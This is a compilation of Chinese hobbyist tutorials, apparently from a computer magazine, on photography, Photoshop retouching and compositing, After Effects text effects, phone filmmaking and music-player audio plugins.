我调整好相机，开始对着那些做运动的孩子们拍摄。拍摄完一组打羽毛球的孩子时，检索后感觉人物有些单一，动感不够强烈。这时我看到操场边缘的地方，一个小学生手里拿着一个简易的球拍，在连续练托乒乓球。看着他托球专注的样子，我开始调整相机的高速连拍功能按钮，心里想着，应该能拍出精美的图片来。

### 拍摄准备

我所用相机是尼康D700，它是一款全画幅数码单反相机，功能也是十分强大的。对于相机上的设置，只要设置准确的话，就等于成功了一半。

#### 1. 调整驱动模式

我最快速地把相机驱动按钮调到了高速连拍的驱动模式挡（如图1、图2所示）。

使用单点对焦区域或动态对焦区域都可以。设置自动对焦似乎很繁琐，熟悉就手到拈来了。一般情况下，对焦模式只有在要拍摄运动物体时才会用到，平时多数都是打在单次自动对焦的位置，其实并不会需要频繁改动。

如果仍然觉得设置起来比较麻烦的话，可以把设置调整到全自动对焦的位置，便可以应付大多数的情况了。

### 2. 对焦点和对焦模式的选择

尼康D700数码单反相机的对焦区域的按钮在相机的后背右下角。这个按钮分为单次自动对焦的选择、连续自动对焦的选择、全自动对焦。对焦模式按钮在相机前面的左下侧，也分三个档次（如图3、图4）。

### 实践操作

D700都设置好了之后，剩下的就是实际拍摄时手头的“跟拍/摇摄”功夫了。如果在一次连拍中拍摄了十几张照片，有一张或者两张成功把动态的主体凝固在画面上，那就达到了预期目的。

这里主要以这次拍摄高速托乒乓球运动的孩子为例，说明对运动物体的捕捉要点。首先，对于运动孩子的拍摄，一般情况下，都是采用跟拍的手法。跟拍就是在孩子在托球运动过程中，镜头追踪着孩子眼睛和上下跳动的乒乓球的移动，并且要注意把孩子固定在画面中的中心位置，因为不是追求专业的体育运动竞赛，我没有采用大光圈、高速快门拍摄追求背景在移动的动感效果。

能否拍摄出让人满意的照片，一是取决于手上功夫如何，能否用镜头对准运动中的孩子还有上下跳动的小黄球，让运动中的孩子的眼睛和乒乓球在画面中稳定住；二是取决于连拍速度，当然这点并不是说连拍速度越高就拍得越好，而是张数更多的情况下，出现满意的片子的机会就会更大；第三则是相机上的设置是否正确。

那个托球的孩子，也非常专注。我连续的快门动作，并未影响他的托球。拍摄完毕后，我让那个孩子和我一起检索图片，当那个孩子看到视窗里自己的图片，也露出开心的笑容。

### 摆拍一组跳跃的图片

用同样的相机设置，拍摄一组跳跃孩子们的图片，似乎更能表现出灾后孩子们忘却灾难带来的阴影，快乐的成长的意境。

我在和那个托球的孩子在检索相机里的图片时，那些排队打乒乓球的孩子们，都围过来。于是我灵机一动，让那些孩子们站成一列，并且听我的指挥。灾区里的孩子们都朴实、善良，非常听话听指挥。我右手端着相机，放到眼前；伸出去左手，嘴里喊着一、二、三，跳！嘴里一次一次地重复，右手的食指始终没有离开快门。喀喀喀、喀喀喀、喀喀喀，在尼康夸张的快门声里，我自信地认为，精彩的照片出现了。这组图片，在四川纪念“5.12”三周年那天官方的微博里，多次滚动出现在成都人民广场大屏幕上。

更多照片请访问：http://blog.china.com.cn/huangshengyou/art/6342141.html欣赏。

(文/黄胜友)

## 巧治广角照片的“畸变之弊”

广角照片难免存在一定的畸变现象，让景物看起来有些变形，例如建筑物显得倾斜，海岸线看起来并不水平等。尤其在拍摄街景图片时，畸变现象最为明显。如何才能消除广角照片的畸变现象呢？

有了Perspective Pilot这款独特的软件，仅需简单几个操作，就可以让广角照片告别畸变的烦恼。软件下载地址为：http://www.colorpilot.com/load/persp.exe。

### 修复广角海景图片

在Perspective Pilot主窗口中点击菜单“File”→“Open”项，打开一张海岸线存在倾斜的图片。可以看到在略显阴沉的天空下，海面上波涛起伏浪花飞舞，只是远方的地平线有些向下倾斜。点击工具栏上的“Auto Cropping”按钮，使之处于下沉状态，激活自动修复功能。之后在地平线上点击鼠标进行拖动，沿着地平线画出一条调整线。可以看到地平线已经被拉直了，不过线条看起来有些不连贯。

点击工具栏上的“Finish”按钮，Perspective Pilot可以迅速将地平线拉直。点击工具栏上的“Original image”按钮，可以对比调整前后的图片效果。

### 修复街景图片

在Perspective Pilot主窗口打开街景图片，可以看到街道两边和远处的建筑看起来有些倾斜，实际上，建筑物应该垂直于地面。在左侧的红色房屋的窗户边线上点击鼠标，沿着该窗台边线拖动鼠标，画出一道调整线（图1），可以看到，Perspective Pilot迅速对该房屋视角进行了调整。

但远方和右侧的房屋看起来仍显得有些向内倾斜。在远方和右侧房屋垂直边线上分别点击鼠标，分别沿着房屋的垂直边线拖动，分别画出一道调整线。Perspective Pilot随即对上述的垂直视角进行了合理调整。经过上述修复操作，各个建筑物看起来基本很完美了。

不过上述房屋的垂直边线还显得有些断断续续不连贯。为此，点击工具栏上的“Original image”按钮，上述房屋的垂直边线立即变得光滑笔直（图2），最后保存修复完毕的图片即可。

(文/郭建伟)

## 有问必答 如何拍出人景俱亮的夜景照片

读者: 那天晚上去奥林匹克公园玩，觉得很漂亮，但拍出夜景效果却不是很理想，要么是景亮人暗，要么是景暗人亮，拍照时应该对焦在哪才能拍出背景与人物同样光亮的照片呢？另外，由于奥运场馆周围有很多路灯等辅助灯光，针对这种拍摄环境应该如何用光呢？

吴晓华老师: 读者所提出的问题是业余摄影爱好者在日常生活中拍摄夜景照片中普遍存在的现象。至于如何能比较好地解决这个问题，关键在于摄影者要准确理解在夜景环境条件下，拍摄人物与夜景同景照片时人物与背景两个被摄体之间的曝光平衡问题。通常情况(在不开启照相机闪光灯的情况)下，当人物曝光合适时，一般背景必然会存在曝光过度; 当背景曝光合适时，人物必然会存在曝光过欠。如何解决好这两者间曝光的平衡问题，是夜景人物摄影的关键所在。

## 拍摄夜景与人物同景照片的基本要点

夜景拍摄主要分为纯夜景风光照片和人物与夜景同景照片两种。前种比较好拍摄，只要曝光合适就基本可以了。但是，当在夜景背景条件下附有人物摄影时，则完全不是一个概念了。只有解决好人物与背景曝光的平衡，才能完成好夜景与人物同景照片的拍摄工作。

夜景与人物同景照片拍摄的基本要点主要有以下7点。

1. 此类照片的拍摄要点是解决夜景与人物两者之间的平衡曝光问题，尽管重点是人物的正确曝光，但又不同于日光照片的拍摄，必须兼顾人物与背景的和谐，两者不可偏废。
2. 通常(纯)夜景照片拍摄，在曝光的要求上是比较单一的，也就是说只要符合曝光合适这一基本条件，拍摄一张夜景照片是比较容易的。通常夜景照片拍摄的(快门)曝光时间为1-2秒钟之间，但实际拍摄中需要根据背景灯光的亮度来确定合适的曝光时间，这是夜景与人物同景照片拍摄的第一个基本概念。
3. 当在拍摄夜景照片时有人物参与其中时，不仅要考虑背景的(快门)曝光时间，还要考虑到人物的(快门)曝光时间。人物曝光时间(在开启闪光灯的情况下)通常为1/60s到1/250s之间，这是夜景与人物同景照片拍摄的第二个基本概念。
4. 以上两个完全不同的曝光时间如何有机地组合起来，这是解决好夜景与人物同景照片拍摄的关键点—背景与人物同时曝光合适。在这种情况下，摄影者首先要将照相机的曝光时间，根据背景的亮度适时调整到1-2秒之间(可以通过背景的试拍来决定照相机快门的速度)。
其次在利用闪光灯拍摄时必须明白，此时的(人工光源)闪光灯只是一个补光的作用，如单反照相机的外置闪光灯，通常闪光指数较大(照射距离远)，而一般便携式(傻瓜)照相机的内置闪光灯的闪光指数比较小(照射距离近)。
我们以便携式(傻瓜)照相机为例，其闪光指数通常在11-14之间，实际有效照射距离大约在3-5米(外置闪光灯通常为可调指数)。此时如果将照相机快门时间设置在1-2秒钟之间(根据试拍结果确定正确的快门速度即可)，照机应距离人物4米左右的距离拍摄，这样拍出的效果一般都比较理想。照相机至人物之间的距离应严格控制在3-5米之间，过近了人物脸部会出现曝光过度，过远了会失去补光的作用，这是合理利用闪光灯的补光作用来拍摄夜景与人物同景照片的重中之重。
5. 由于夜景与人物同景照片的拍摄严格受之于上述两个曝光时间与距离上的基本要求，所以在拍摄夜景与人物同景照片时，摄影者必须与被摄者有一个默契的约定—在快门开启过程中的1-2秒时间内，被摄者必须保持一个固定的姿态，以确保画面人物的清晰。
6. 为了拍摄出更清晰锐利的夜景与人物同景照片，一是建议摄影者在条件允许的情况下尽量缩小1-2档的光圈(同时照相机会自动延长曝光时间)，以增加背景的锐度; 二是建议摄影者尽量使用三角架来进行拍摄，以克服由于长时间曝光因手持拍摄而产生的抖动。
7. 在夜景与人物同景照片的拍摄时，可以充分利用外界的各种灯光来弥补环境光线照度的不足。但是，由于在夜景拍摄时外部的复杂光线往往会射入镜头，造成不必要的眩光而破坏整个画面，这是特别需要提醒读者的。

(文/吴晓华)

## 打造不同年代播放效果的音乐

当唱针划过老唱片上的密纹，温润、玲珑的声音从耳边拂过。在不少音频发烧友眼里，黑胶唱片等不同年代的播放器带来的感觉是无法比拟的。其实用Windows平台上普遍使用的千千静听，就可以实现对发烧音箱效果的模拟，可以让电脑的普通播放器瞬间变成不同年代的音乐播放工具，也可以模拟不同的播放环境，如同亲临大街上或者在森林等。

下面就教大家如何用专业音频处理领域的专业效果插件，来插入到千千静听中，实现对播放音乐有意思的变化。在PC机中专业的插件是VST插件，要达到最好的播放效果，朋友们可以购买一些支持ASIO驱动程序的专业声卡。当然电脑配置够强大也可以直接进行下面的操作。

1. 首先上网下载“dsp_vst支持插件”的一个dll文件，将其解压到千千静听的TTPlayer\Plugins插件文件夹中，如果没有这个文件夹可以自己创建一个。
2. 然后右键点击千千静听，选择“千千选项”。在界面左侧选音频插件。在右侧的画面就能看到刚才释放的那个dsp_VST.DLL文件。
3. 这时上网下载AUDIO EASE Speakerphone软件，这是一款音箱模拟效果器，通过使用Audio Ease的Altiverb软件里的技术，为声音添加各种条件下的声学环境特性。创建一个VSTPLUGINS的文件夹，安装这个软件的时候记得把VSTPLUGIN这个文件装在建立的VSTPLUGINS文件夹中。
4. 在千千静听中选择步骤3所选的VST界面。在VST插件栏里选择，选择刚才安装的AUDIO EASE Speakerphone。
5. 这个时候我们就成功了。现在千千静听的声音就通过这个插件来处理。我们可以点最左边那个小唱盘机的界面，通过拉框可以选择不同年代的不同唱片播放设备，选择界面上面的DRY/WET左右拖动条，往左拖动就是千千静听原始的音乐声，越往右拖就越是经过插件处理的。
6. 我们还可以通过这个插件来模拟不同的播放环境，用耳机听音乐使用这个功能非常好玩。中间有一个区域上面写着ROOM，点击ROOM区弹出下拉框，下拉框中包括可模拟的各种各样的播放环境，包括大厅、体育场、甚至在大街上或者大森林。这个插件是专业级的插件，所以这些效果都是对真实环境采样模拟的。这个时候千千已经变成了最强大的音乐播放器。

(文/王晏琳)

## S身材 你也可以拥有

每个MM对自己身材都有各自的小困扰，但是总结起来，其实都很希望自己像杂志上的模特一样，身材前凸后翘，玲珑有致。今天小编就来教大家，如何将平板身材打造为热辣的S身材，把照片上的你变得更加丰满自信吧！

- 1 打开原图后，选择“美容”下的“眼睛发大”，调整画笔合适的大小和力度，给MM丰胸。
- 2 选择“瘦脸瘦身”，设置合适的画笔力度和大小，给MM调整下胸型并且瘦腰，让MM身材曲线更迷人。
- 3 丰胸过后的照片有些模糊，所以我们首先选择“美容”菜单下，“基础”特效里的“锐化”特效，透明度设置为60%。

怎么样，是不是步骤简单效果神奇？各位姐妹们不要羡慕啦，快来自己也动手制作一张吧！

## 别再悬浮了 一起下落吧

先来看看成片！



近日，在地球另一端的欧洲出现了一位“摔跤少女”——照片上的她整个人从椅子上跌落、摔得连裙子都飘了起来，栩栩如生。而她以假乱真的摔跤技巧也在网络上引起了“围观”。下面我们就来一起揭秘“跌落”照吧！

怎么样？有意思吧？是不是感觉很神奇？上次和大家一起探讨了“悬浮”照片的拍摄技巧，得到了很多读者的热烈反应。这次我们再接再厉，一起研究比“悬浮”更有趣更有技术含量的跌跤、飞行照！

- 1. 首先，准备一台相机，不管是卡片机、手机、单反，只要能及时抓住精彩的瞬间就OK~！
- 2. 准备一个凳子！哈哈，这就是飞舞在空中的秘密武器！因为我们并不是真的能飞，所以身体必须要一个着力点，所以一根小凳子是必备的。同时，记得在凳子上准备一个小垫子或者毛巾，否则很容易因为把全身的重量放在腰腹某一个中心而导致软组织受伤。玩摄影很快乐，但是安全是关键！
- 3. 把身体的重心放在凳子上，然后四肢飞腾，一定要控制稳重心，否则很容易摔倒！然后拍摄者抓住精彩瞬间。其中比较经典的是跌跤照，在拍摄时，一手抓住头发，一手撩起衣襟，需要拍摄者抓住上扬的瞬间，看起来才会有掉落的真实感。
- 4. 照片在电脑上，用PS里的工具“套索”把凳子圈起来，然后用“印章”把凳子完全P掉！锐化照片！

完成！一张精彩的空中“下落”照就完成了！是不是比跳跃悬浮照更加有脱离地球、在空中飞舞的感觉呢？有兴趣的玩家可以跟着尝试看看，不过一定要注意安全。

欢迎大家通过邮箱(irismmc@qq.com)和微博(http://weibo.com/monkeymm)和我交流，也期待大家告知我你想要了解和感兴趣的一些新鲜创意摄影！

网络大补贴：“摔跤少女”Zuzi在博客上解答了摔跤照片的拍摄方法，称它们都是靠一些技法、以及计算机修图后期完成。http://tech.ifeng.com/gundong/detail_2011_07/03/7403327_0.shtml

（文/小猴子iris）



## 90华诞党旗飘飘

中国共产党建党90年之际，你是否想在自己的空间、博客上放一面飘动的党旗，以庆祝党的生日呢？下面看我们怎样利用PS制作一面迎风飘动的党旗。

### 制作动感蒙版

- 第一步：打开PS，新建一个800*600的背景透明的空白文档。
- 第二步：新建一个图层，然后将前景色设置为颜色较深的一个灰度色（#373737），背景色设置为一个颜色较浅的灰度色（#E5E5E5），再用渐变工具在选中的范围内拖动鼠标。
- 第三步：选择“滤镜/扭曲/波浪”，可以按照图1所示来设置参数。



- 第四步：按下“Ctrl+T”对图层进行旋转变换，这里将图层旋转-8度，按回车键应用变换后，保存文档为“党旗1.psd”。
- 第五步：右击最上面的图层，选择复制后确定，然后在按下Shift+Ctrl键的时候，按右方向键4次，将图层右移40像素，保存文档为“党旗2.psd”。
- 第六步：将第五步重复4次，依次保存为文档党旗3.psd~党旗6.psd。

### 制作静止的党旗

- 第七步：新建一个图层，然后用“矩形选框工具”在空白处用鼠标拖出一个适当的矩形，并用红色填充作为党旗，注意党旗位置要置于“图层2 副本5”的范围之内。
- 第八步：可以利用百度的图片搜索在网上找一个党徽图片，复制后粘贴到党旗上，并调整好大小、位置。将其他图层隐藏后，利用“图层/合并可见图层”将图层合并，一面静止的党旗就在图层3上制作好了。
- 第九步：按下“Ctrl+T”对图层3进行旋转变换，这里将图层仍然旋转-8度，按回车键应用变换。

### 制作动画帧

- 第十步：将图层3复制5次，并将得到的新图层依次拖动到各个蒙版图层的下方。
- 第十一步：选中“图层3”，点击“滤镜/扭曲/置换”，然后选择“国旗1.psd”。然后选中“图层2”，将图层混合选项中的混合模式设置为“变暗”，并将不透明度设置为38%（图2），就可以使得图层3的国旗显示出波浪效果。



- 第十二步：重复第十一步，分别对“图层3 副本” - “图层3 副本5”用“国旗2.psd” - “国旗6.psd”进行置换，并设置混合选项，这样就可以分别使得他们显示出波浪效果。
- 第十三步：只显示图层2和图层3，将其他隐藏，用魔棒工具在图层3的空白处点击鼠标，然后使图层2处在编辑状态，按下Delete键，删除图层2中的多余背景，再选择“图层/合并可见图层”，就可以得到飘动党旗的第一帧。
- 第十四步：重复第十三步，分别对其余的图层进行操作，就可以生成党旗的其他帧。
- 第十五步：新建一个图层，画上旗杆。
- 第十六步：用矩形选择工具将红旗选中，然后通过“图像/裁切”去掉多余部分。
- 第十七步：将文档保存为“党旗.psd”。

### 生成透明动画

- 第十八步：通过“文件/在ImageReady中编辑”打开ImageReady编辑窗口。
- 第十九步：勾选“窗口/动画”菜单，打开动画窗口，并在图层窗口中，隐藏除图层2和图层3之外的其他图层。
- 第二十步：点击“复制当前帧”图标，增加一个新的帧。并在新的帧中只显示“图层2 副本”和“图层3”两个图层。
- 第二十一步：重复第二十步，将6个帧的内容全部设置好，使得每个帧只显示旗帜的一个飘动层和一个旗杆层。设置好后再将每个帧的播放时间调整为0.1秒（图3）。



- 第二十二步：点击“文件/将结果优化存储为”菜单，将文件保存为“旗帜.gif”。呵呵，一个透明的、飘动的党旗就制作完毕了，赶快将她放到你的博客上，借此向党的90岁生日献礼吧。

（文/刘振华）

## 侧脸的生活照—一样转成正式照

临下班时突然接到在外出差的同事小赵的电话，要我马上帮他上传一张正式照片给某会议。可我找了半天也没找到一张证件照，只有一张家庭合影照片，头部形态还不符合要求。时间紧急，我用半小时把这张侧脸的生活照“妙手回春”为一张证件照，及时上传了会议资料。一起来看看我是如何做的吧～



- 2. 可以注意到人物脸部向画面的右边侧了，头有点上仰，左右脸部的光照也不均衡，下面一一解决这些问题。首先用变形工具大体校正，打开“菜单--编辑--变换--变形”，按照图2中把各个蓝色的节点按照红色箭头的方向拉动，可以得到一个大体的修复效果。



- 3. 这一步用液化工具进一步完善。打开“菜单--滤镜--液化”，选择“向前变形工具”，笔头大小如图中的圆圈大小，可根据实际情况来随时变化。按照图中箭头的方向向前推进，这步是个细腻活，边变形边观察效果。具体如图3。



- 4. 至此头部基本端正了，现在来均衡脸部两侧光照的差异，也就是要把左边变暗些，可以用套索工具大体做个选区再用曲线调暗。现在皮肤基本上均衡了，新建一层，用白色的画笔仿照左眼球的高光，也给右边的眼球点个高光效果，可以调整图层的不透明度以求得左右协调。如图4所示。



- 5. 这一步是抠图换背景。对于人物的抠图重点是头发，这里用抽出滤镜。合并全部图层，命名为“图层1”，复制图层1命名为“图层2”，关掉图层2前面的小眼睛，在图层1下面新建一透明层，用来填充所需的背景色，这里以蓝色背景为例。选择图层1，打开“菜单--滤镜--抽出”，勾选“强制前景色”，用吸管工具吸取黑色头发。然后用工具栏中第一个图标“边缘高光器工具”把头发部分全部涂上，如图5、图6所示。





- 6. 这样头发的边缘发丝就基本抠出来了，打开图层2前面的小眼睛，点击图层面板下面的添加矢量蒙版的图标，给图层2添加蒙版，用黑色画笔把人物抠出来，头发边缘可以结合图层1的。这就是笔者常用的典型的抽出+蒙版的抠图方法，操作蒙版画笔的大小、硬度以及不透明度要随时改变。



- 7. 现在来更换衣服，找个西装的素材就可以啦。需注意的是合成时大小要合适，结合处过渡要自然，整体色调要协调。最后适当地去噪，这个用手动的或磨皮插件稍为过一下就可以了。最终效果如图7所示。

小结：这种侧脸转正脸的一般用到变形工具以及液化相结合，有时也会复制正常的部分来修复，变形要掌握个度，不要搞得面目全非了。过程还要用到抠图、调色、蒙版合成等，综合了PS多项技术的应用。

(文/凡鱼)

## 我的周末 我的生活手机拍摄家庭短片

我们对于用相机和摄像机进行摄录已经很熟悉了，但很多时候最方便的拍摄工具还是手机，用手机可以实现随时随地想拍就拍。本文以一个儿童的周末生活为例，为大家讲述如何用手机自拍家庭短片。

### 构思和准备

短片的种类有许多，纪实的、风光的、婚礼的、宣传的等，可以从简单的、最熟悉的家人和好友开始，不要一开始就想拍一个“大”片，一鸣惊人。拍摄前要对短片要有一定的构思和计划，依据构思和主题来选择拍摄内容，就像写文章一样，根据主题来取材，有详有略。比如我要拍一个小孩周末生活的题材，可以把重点放在她学习舞蹈的情节，还有那严厉的舞蹈老师，而其他的生活情节可以简化带过。

### 拍摄

用手机拍摄时，要拍稳了，不能“晃”！时刻注意拍摄的环境、光线和距离。黄昏、晚间不能拍，最佳的拍摄环境是晴朗的室外，少用变焦功能。充分利用手机好的便携性，随时拍摄你的发现、你的感悟和思考。拍摄的画面要有丰富的背景变化，交代故事环境一般要用远景，表现故事细节或刻画人物性格特点（如眉语间的变化）要用近景和特写。

比如，在“我的周末”片中，开始可拍摄所居住小区外貌的一条远景，接着是在路边等车的画面。后面就直接跟上舞蹈练功的场景。为了交代练功的环境，用远景定格3秒后，慢慢地“摇”上半圈，把整个练功的环境表现出来。她压垮练功那痛苦的神情，用局部特写来表现。这一切要抓拍，不要做作的摆拍。

当然拍摄宣传片时，为了表现大场景大画面，一般先从局部特写开始慢慢地“拉”出整个场景来。同时要注意画面中光线的情况，手机最好在室外拍摄，如果在室内不要在逆光环境下拍，否则很容易出现背景太亮、主体又太暗的画面。要使用侧逆光，人物的立体感才能出来。力争使拍摄画面具有“美感”，灵活运用好“推、拉、摇、移”等拍摄技术。时间长度以3~5分钟为好。不要求你能“讲”个精彩的故事，表现好生活中的一个点、一个侧面即可。基本功练好了就可以用DV来拍大片了！

(文/张国武)

## 如何修复玻璃反光问题的照片

在日常的拍照中，经常遇到由于玻璃的反光而影响到主体的照片，这期就来详述如何修复这类玻璃反光的问题。

有些反光的问题在前期拍摄时，可以通过调整拍摄的角度以及添加偏振滤镜加以消除改善，但有些由于拍摄的条件所限，只能通过后期来修复。一张隔着玻璃拍摄的古代器皿照片，首先我们来分析这张古董原照，在画面3/4处有一条反光带，不但色调改变了，而且对面的东西也被镜像在其中，这个是重点要修复的。在左右的两侧也有人影，上部还有对面灯光的镜像，这些都是属于要修复的范畴。

具体的步骤如下。

- 1. 很多人在修复照片时往往不知从何下手，个人习惯要么是先易后难，要么就是先难后易。先大块直观的，后再完善细节。比如这张原图，我们就先从上部最显眼的反光带入手，首先修复左边的那块反光。由于这个反光块位于背景处，背景属于单色背景，如果要保留其纹理质感，可以用套索工具在其上部完好处做个选区，然后按快捷键 Ctrl+J 复制一层，再用移动工具移动到反光块上进行覆盖。如果发现色调有差异的话可以用调色工具调整，如曲线、色阶、色相饱和度、对比度等。边缘如果发现融合不理想，可以用图章修复工具进行修正融合，这也是最常用的修复方法之一。
- 2. 这一步将处理主要反光的那块，从工具栏中选择矩形工具，将这块框选上做个大致的选区，可以看到这块反光的部分的色调偏黄、偏亮，这可以用PS中的调色工具进行处理，这里将用到曲线工具，在所有的调色工具中，曲线工具功能是最强大，它既能调整色彩也能调整亮度对比度，还能够点对点进行调整，这是其它的调色工具所不具有的。点击图层面板下面创建新的调整层工具的图标，选择曲线，分别对R（红）、G（绿）、B（蓝）以及RGB通道进行调整，红通道的对角线往上拉就是增加红色成分，其补色是青色，也就是往下拉则增加青色成分；绿通道往上拉是增加绿色成分，往下拉则增加洋红色；蓝通道往上拉是增加蓝色成分，往下拉则增加黄色成分；RGB通道主要是调整亮度对比度的，往上拉是变亮，往下拉则是变暗。由于我们用的是曲线调整层，不是直接在原图层上操作，而是新建一曲线层，并自带蒙版的，这样就可以利用蒙版来修整选区边缘的细节部分。
- 3. 按下盖印快捷键 “Ctrl+Shift+Alt+E” 盖印合并可见层，也不是真正的合并，是新建一个合并层，所以我们提倡尽量使用调整层和盖印层。现在先来修复背景部分，反光这块放在最后再来完善哈。首先把左上部的灯光部分反光的部分去掉，这个用复制粘贴覆盖或者直接用图章修复工具都可以。
- 4. 现在开始修复两边的人影反光部分，可用上述第1步中的复制、粘贴覆盖的方法。一小块一小块地修复完整，加上蒙版修整以及图章修复工具处理边缘的融合。这方面得花费不少时间，也是考验大家耐性的时候哈。
- 5. 至此其它部分都修复好了，再按下盖印快捷键合并可见层，现在再回过头来继续修复完善主反光块的部分，这个刚才在第2步里已经修复了色调，发现中间有个对面的镜像花瓶，这个可以用图章修复工具或画笔清除掉，再继续修复融合接缝处的细节问题。用画笔的话，尽量用较软的硬度，适当地降低不透明度，这样涂抹时痕迹才不会太明显。使用图章修复工具时的取点最好要在附近完好处，按下Alt键就是进行取点...这样全部的修复工作宣告完毕！

小结：本例算是相对比较复杂的反光问题，修复起来也相应地繁琐些。玻璃反光的修复通常用到调色工具、图章修复工具、局部的复制粘贴，有的甚至还会用到些小手绘，通过上述的修复学习希望大家能够达到触类旁通、举一反三的目的。有何不明白之处，请到CFan图形图像论坛探讨交流......

（文/凡鱼）

## AE吐字特效的制作

生活中你可能见过吐烟的、吐火的，今天我们就来一个吐字的特效。

- 1. 启动After Effects CS4，在弹出的欢迎使用窗口中，选择【新建合成组】命令。又弹出【图像合成】设置对话框，在“预置”项目栏中选择PAL D1/DV制式，其它按默认设置，单击确定按钮。
- 2. 在工具栏中选择【横排文字工具】工具，在合成窗口中单击鼠标后，输入要吐的文字。注意文字颜色、大小和视频的搭配。
- 3. 选择文件/导入/文件菜单命令，在弹出的导入文件窗口中，选择相关视频文件，本次选择导入一个婚礼讲话的片段。
- 4. 把本视频文件导入到【合成】窗口中，在项目窗口中先选择婚礼文件，再单击拖动到合成窗口中。
- 5. 制作吐文字特效。在合成1栏目中，先选择1文字图层，再选择效果/模拟仿真/吐泡泡菜单命令。在特效控制台中，设置反射类型为金属，明暗类型为变亮，设置增加泡泡数量等。
- 6. 在预览控制台中，单击播放按钮，预览效果。有时文字吐出来是反的，可再在合成窗口中用鼠标仔细调节移动文字边的色块，直到满意为止。同时根据视频内容在时间线窗口中调整吐字特效的时间量。一般持续2~5秒为宜。

（文/张国武）

## 中秋佳节 你也能奔月



转眼间中秋佳节来临，大家自然会想到明月、嫦娥、玉兔、月饼……看到这张MM的照片突发奇想能否也让她奔回月呢，现实中几乎不可能了，可咱PS可以帮她实现奔月的心愿！下面采用趣味、夸张的手法合成张“我也奔月”图。

- 1. 合成应该是大家最喜欢做的，合成前应该要做到心中有谱，素材是很重要的。所以第一步根据原照中MM的神情动作，先从网上找到一张嫦娥奔月的背景素材。由于找到的素材有些变形，拉扁了，所以先按下快捷键，Ctrl+T，用变形工具把水平尺寸稍压一下即可修正。现在我们想让MM飘在月饼上，接下去就得把背景中的嫦娥去掉，这个用图章修复工具即可，具体如图3所示。
- 2. 在原照中用套索工具把MM大体做个选区，然后拖到背景图的上层，调整好大小、位置，该图层命名为“图层1”。点击图层面板下面“添加图层蒙版”的图标，给图层1加上蒙版，然后用100%透明度黑色画笔除去MM的原背景，这就是蒙版抠图了，再用20%透明度、60%硬度的黑色画笔修整人物边缘，使之于新背景融合自然。由于新背景在MM的头发处也是黑色的，所以不必进行太细致的抠图，自然融入即可。
- 3. 这一步要给MM双手找个抓的东西啦，哈哈，还是让她抓着大月饼吧，这既符合手势也符合这张主题。可以复制背景图中的月饼，再适合放大些在调整合适的方位，最后加上蒙版使之和手融合自然。然后复制若干个月饼进行适当的变形后铺到月球附近。
- 4. 至此主要部分已经合成到位了，下面开始细节方面的修整。人物和背景的色调基本差不多了，可以用色彩平衡工具稍调黄一点点，这样更协调些。再者就是MM的手和脚和月饼的接触面要添加合适的阴影，这样才不至于脱节，这也是初学合成者经常忽略的问题。（前次网络上闹得沸沸扬扬的某县委三个干部视察的虚假图片，主要就是这个问题没处理好。）这样人物就悬浮在地面之上啦。做阴影效果要根据光源的方向，这张是复杂光源的，上面有月光，地上又有黄光，所以在做阴影时要兼顾一下，当然只要没太明显的破绽就ok啦。做阴影可以用加深减淡工具，也可以直接用黑色画笔画出来。这里用的是黑色画笔，新建一透明层，命名为“阴影”，前景色设定为黑色，图层混合模式为“正片叠底”，画笔不透明度为10%左右，硬度为0，然后用画笔大体涂抹出所需的阴影效果。
- 5. 继续增加些小趣味，把MM手推的那个大月饼刻上“cfan”。复制一层月饼，命名为“月饼1”，隐藏图层前面的小眼睛，在原来月饼层上面新建一个透明层，命名为“图层2”，在月饼上取色涂抹，把月饼原来的花纹抹去，合并图层2和原来的月饼层，仍然命名为“图层2”。用文字工具输入“cfan”，按住Ctrl键，同时点击文字层，取得文字选区。隐藏文字选区，选择图层3，按Ctrl+J复制选区内的图像，添加图层样式，这样就可以做出月饼突出的立体文字效果，做文字凹凸效果也可以用通道。然后打开“月饼1”图层前面的小眼睛，添加蒙版，用黑色画笔用刻字月饼增加些原有的花纹质感，这样效果比较自然。
- 6. 最后找张玉兔的素材，抠出玉兔放在上面一个月饼上，增加些趣味。方法同上。由于兔子比较小，抠图也不必太细致，大概用蒙版修整一下就可以了。这样一张奔月图就全部完成喽！



小结：
合成时应充分发挥自己的想象力，要注意色调协调、融合自然、合理。由于多用到抠图，所以抠图得过关，有何不明白之处欢迎到CFan图形图像论坛交流哈～～～

（文/凡鱼）

## 将偏色问题一网打尽

日常拍照时难免遇到偏色问题，特别是有的偏色是无法避免的。不过，正所谓“拍得好不如修得好”，下面我们就举几个有代表性的例子谈谈后期如何校色的。

- 对于轻微的偏色而言，一般用PS中的自动色阶、自动颜色都可以得到有效的修复。如图1是在傍晚拍摄的，由于曝光不足导致整体偏蓝色，用自动色阶、自动颜色就可以基本地修复了，如效果图2所示。

至此，色彩已经得到基本的校正了。打开色阶，发现右边的高光不足，把右边的高光按钮向左边移动到像素附近就ok啦，左边是暗部区，中间是中性区，调整的原理都是一样的，这对于大部分的生活照都适用。最终效果如图3所示。

- 有些偏色照片无法用自动色阶、自动颜色来修复，那就要用手动啦。比如图4这张由于受到后面大红门的影响，导致画面有点偏红，但不是很严重，稍微用曲线调一下就差不多了。首先降低R（红色）通道的暗部和高光的红色成分，降低B（蓝色）通道高光的蓝色成分，再进入RGB通道提高暗部、高光部分保持不变。因为原图对比度比较大，这样可以稍缓和一下对比，同时也稍提高暗部的亮度。效果图如图5所示。

- 这张猫偏红色，可以用通道混合器校色，再加个曲线微调色彩以及增加些细节层次。如图6-7所示。

- 有时候校色很难做到一步到位，可以运用多种的调色工具相结合，这样有时更方便些，但要求对各种调色工具熟悉。这里先用曲线大体校色，然后加个色彩平衡，选取颜色、色阶、色相饱和度继续完善校色。当然啦，可能不需要这么多，只是为了让每个调色工具可以综合应用，协同作战。如图8-图9所示。

- 第一步用曲线校色后的效果如图10所示。

- 第二步用色彩平衡调整，如图11-图13所示。

- 第三步用可选颜色工具分别对红色和黄色进行微调，如图14-图15所示。

| 颜色(Q) | 红色 |
| :--- | :--- |
| 青色(C) | -53 % |
| 洋红(M) | -20 % |
| 黄色(Y) | +21 % |
| 黑色(B) | +35 % |
| 方法 | ◎ 相对(R) ○ 绝对(A) |

| 颜色(Q) | 黄色 |
| :--- | :--- |
| 青色(C) | 0 % |
| 洋红(M) | -10 % |
| 黄色(Y) | -28 % |
| 黑色(B) | 0 % |
| 方法 | ◎ 相对(R) ○ 绝对(A) |

- 第四步用色阶工具调整黑白场，如图16所示。

| 通道(C) | RGB |
| :--- | :--- |
| 输入色阶(I) | 20 | 1.42 | 255 |
